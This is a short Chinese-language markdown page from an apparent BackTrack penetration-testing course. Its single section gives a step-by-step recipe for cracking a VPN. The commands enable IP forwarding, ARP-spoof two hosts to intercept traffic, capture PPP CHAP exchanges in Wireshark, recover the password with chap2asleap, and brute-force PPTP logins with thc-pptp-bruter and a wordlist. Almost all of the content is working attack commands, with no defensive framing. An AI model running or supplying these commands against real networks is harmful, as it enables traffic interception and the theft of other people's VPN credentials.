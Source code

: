 backtrack渗透实战课程（linux安全网）
====
## 目录
* [一、backtrack实践教程--破解VPN](#一、backtrack实践教程--破解VPN)  


=======

### 一、backtrack实践教程--破解VPN
`[参考网站](http://blog.g0tmi1k.com/2010/03/chap2asleappy-v011-vpn/)`|[参考网站](http://blog.g0tmi1k.com/2010/03/chap2asleappy-v011-vpn/ "参考网站")|
```
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ./arpspoof -i eth0 -t 10.0.0.3 10.0.0.9
    ./arpspoof -i eth0 -t 10.0.0.9 10.0.0.3
    注：两个shell窗口输入arpspoof
    wireshark -i eth0 -k
    注：wireshark过滤条件：chap；启动VPN
    python chap2asleap.py -u [用户名] -c [PPP_CHAP_Challenge] -r [PPP_CHAP_Response] -x -v 
    注：通过wireshark查看输入参数

    cd /pentest/passwords/wordlists/
    cat darkc0de.lst | thc-pptp-bruter -u [用户名] -n 99 -l 999 10.0.0.3
```


